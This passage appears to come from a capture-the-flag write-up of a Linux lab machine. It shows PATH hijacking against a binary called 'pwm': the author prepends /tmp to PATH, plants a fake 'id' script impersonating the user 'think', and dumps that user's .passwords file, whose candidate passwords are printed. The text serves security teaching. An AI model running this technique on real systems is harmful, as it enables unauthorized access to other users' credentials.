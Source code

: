 When we run the binary it says that it is running the `id` command and extracting the username and UID, then it searches for a file in a user home directory called `.passwords` 

We may be able to exploit this binary if we can provide it another username and UID via the `id` command 

To do this we need to create a binary called `id` that `pwm` will call instead of the default `id` command, luckily we can do this by exploiting the PATH environment variable

To do this we will put `/tmp` at the beginning of the PATH variable 

```console
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

export PATH=/tmp:$PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now when ever we run a command the system will check the `/tmp` folder first for the binary

Now we can create a binary that will print `uid=1000(think)` in the `/tmp` folder 

```console
pwd
/tmp
echo "echo 'uid=1000(think)'" > id
chmod +x id
```

Now when we run `pwm` it will think we are the user `think` and we get the contents of the `.passwords` file in `/home/think/`

```console
pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
```